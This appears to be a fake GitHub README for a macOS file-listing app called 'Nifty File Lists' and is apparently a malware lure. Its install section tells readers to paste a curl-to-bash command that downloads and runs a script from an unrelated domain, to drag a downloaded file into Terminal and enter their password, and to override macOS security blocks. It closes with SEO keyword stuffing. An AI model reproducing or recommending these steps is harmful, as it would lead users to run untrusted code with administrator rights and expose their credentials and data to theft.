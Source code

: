 <p align="center">
  <img src="https://i.ibb.co/1trGtYMn/1633864955-niftyfilelists-icon.png" width="200" alt="Nifty File Lists macOS Banner" />
</p>

<h1 align="center">Nifty File Lists for macOS</h1>

<p align="center">
  📂 Generate customizable file and folder listings instantly. Export clean, styled lists in TXT, CSV, HTML, or Markdown.  
  <br><br>
  ✅ Apple Silicon Support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/251" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20NIFTY%20FILE%20LISTS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Nifty File Lists for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/qMS8g6FX/1633864159-1.jpg" alt="Nifty File Lists Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Nifty File Lists for macOS?

**Nifty File Lists** is a powerful yet simple macOS tool that helps you generate detailed file and folder listings from any directory. Whether you’re building documentation, archiving projects, or just need a structured list of files, this utility does it instantly.

Export options include plain text, CSV, Markdown, and HTML — fully customizable with column selection, sorting, and formatting presets.

---

## ✅ Why Choose Nifty File Lists?

- 📋 **Generate Lists of Files & Folders Instantly**  
- 🧾 **Export to TXT, CSV, HTML, or Markdown**  
- 🔍 **Includes Size, Date, Type, and More**  
- 🛠️ **Column Picker and Sort Options**  
- 🧠 **Perfect for Catalogs, Indexing, Documentation**  
- 🍎 **Optimized for Apple Silicon (M1/M2/M3)**  
- 🖥️ **Clean macOS-native Interface**  
- 💼 **No Background Processes or Syncing**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/tPY3hF02/1633864157-2.jpg" alt="CSV Export Preview" />
  <br><br>
  <img src="https://i.ibb.co/h5X0jK9/1633864155-3.jpg" alt="Column Selection Panel" />
</p>

---

## 🚀 Key Features

- File/folder list generation  
- Multiple export formats  
- Selectable columns (name, size, type, date)  
- Drag-and-drop directory support  
- Custom styles for Markdown/HTML  
- Works offline  
- Built specifically for macOS  
- Batch support for large directories

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Nifty File Lists manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Export-CSV+TXT+HTML+MD-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Nifty File Lists – Structured Output, Fast

Thanks for using **Nifty File Lists for macOS**.  
Create clean file listings with precision and speed.

---

## 🧭 Usage Context

Nifty File Lists runs locally and works offline.  
Ideal for archivists, technical writers, project managers, or anyone needing structured file inventories.  
Output remains private and exportable in multiple formats.

---

## 🔍 Tags

```text
nifty file lists mac download, export folder list csv mac, file lister app for macos, generate file directory markdown html, mac app to list files and subfolders, batch file list export tool for mac, apple silicon compatible file lister, list files with size date type macos, download nifty file lists for ventura sonoma, file structure export macbook m1 m2, folder report generator mac utility, create html file index mac os, folder content documentation mac, best file list maker for mac developers, csv folder tree exporter for mac
